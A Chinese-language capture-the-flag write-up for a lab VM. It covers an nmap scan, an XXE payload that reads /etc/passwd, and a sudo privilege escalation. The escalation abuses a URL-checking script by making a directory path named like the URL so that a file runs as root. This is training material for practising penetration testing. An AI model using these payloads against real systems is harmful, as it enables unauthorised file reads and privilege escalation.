


┌──(kali㉿kali)-[~/HMV/112] └─$ sudo nmap -p- 192.168.0.104 -oA ports [sudo] password for kali: Nmap scan report for interstellar.dsz (192.168.0.104) Host is up (0.0014s latency). Not shown: 65533 closed tcp ports (reset) PORT STATE SERVICE 22/tcp open ssh 80/tcp open http MAC Address: 52:1D:E4:2D:B5:57 (Unknown)
Nmap done: 1 IP address (1 host up) scanned in 1.41 seconds
web 渗透
开放了 80 端口，去 web 页面看一眼：

是个比较空白的页面，有个输入框，下面写的是 Parse XML 。
猜测就是个输入 xml 数据进去，然后他给你把结果显示出来的网页。
放一个 nmap 的 xml 结果，发现他正常输出了；如果胡乱写一些数据，他会输出 Parse Error。
猜测这里可能存在 XXE 漏洞，那就给一个读取 /etc/passwd 的 payload：

其中给的 payload 如下：
1 2 3 4
<!DOCTYPE test [ <!ENTITY xxeSYSTEM"file:///etc/passwd"> ]> <data>&xxe;</data>
┌──(kali㉿kali)-[~/HMV/112] └─$ ssh tuf@192.168.0.104 tuf@192.168.0.104's password: Linux 112 4.19.0-27-amd64 #1 SMP Debian 4.19.316-1 (2024-06-25) x86_64 The programs included with the Debian GNU/Linux system are free software; the exact distribution terms for each program are described in the individual files in /usr/share/doc/*/copyright. Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent permitted by applicable law. tuf@112:~$ cat user.txt flag{user-b1e12c74f19aac8e57f6fca1ff472905}
提权
sudo -l 查看当前用户可以执行的 sudo 命令：
1 2 3 4 5 6
tuf@112:~$ sudo -l Matching Defaults entries for tuf on 112: env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User tuf may run the following commands on 112: (ALL) NOPASSWD: /opt/112.sh
#!/bin/bash input_url="" output_file="" use_file=false regex='^https://maze-sec.com/[a-zA-Z0-9/]*$' whilegetopts":u:o:" opt; do case${opt}in u) input_url="$OPTARG" ;; o) output_file="$OPTARG"; use_file=true ;; \?) echo"错误: 无效选项 -$OPTARG"; exit 1 ;; :) echo"错误: 选项 -$OPTARG 需要一个参数"; exit 1 ;; esac done if [[ -z "$input_url" ]]; then echo"错误: 必须使用 -u 参数提供URL" exit 1 fi if [[ ! "$input_url" =~ ^https://maze-sec.com/ ]]; then echo"错误: URL必须以 https://maze-sec.com/ 开头" exit 1 fi if [[ ! "$input_url" =~ $regex ]]; then echo"错误: URL包含非法字符，只允许字母、数字和斜杠" exit 1 fi if (( RANDOM % 2 )); then result="$input_url is a good url." else result="$input_url is not a good url." fi if [ "$use_file" = true ]; then echo"$result" > "$output_file" echo"结果已保存到: $output_file" else echo"$result" fi
我们发现，如果直接在命令行输入 https://maze-sec.com/ is a good url. ，终端会输出 -bash: https://maze-sec.com/: No such file or directory 。所以，如果我们能够构造一个名字类似于 https://maze-sec.com/ 这样的文件，我们就可以尝试进行任意命令执行。
如果我们把输出写到 /opt/112.sh 里面，里面就会写着 https://maze-sec.com/ is a good url. 这样的语句，再次执行 /opt/112.sh 之后，我们就可以以 root 权限去执行 https://maze-sec.com/ 这个文件了。
tuf@112:/tmp$ mkdir'https:' tuf@112:/tmp$ cd https: tuf@112:/tmp/https:$ mkdir maze-sec.com tuf@112:/tmp/https:$ cd maze-sec.com/ tuf@112:/tmp/https:/maze-sec.com$ echo'ls' > cmd tuf@112:/tmp/https:/maze-sec.com$ chmod +x cmd tuf@112:/tmp/https:/maze-sec.com$ cd /tmp tuf@112:/tmp$ https://maze-sec.com/cmd is not a good url. https systemd-private-6b6ff678947a4359bfb178dddc8857c0-apache2.service-UGxj1f systemd-private-6b6ff678947a4359bfb178dddc8857c0-systemd-timesyncd.service-xH3TBg https: systemd-private-6b6ff678947a4359bfb178dddc8857c0-systemd-logind.service-rOfsyf
可以发现命令行执行 https://maze-sec.com/cmd is not a good url. 这个语句之后，我们写在 cmd 里的 ls 命令就被执行了。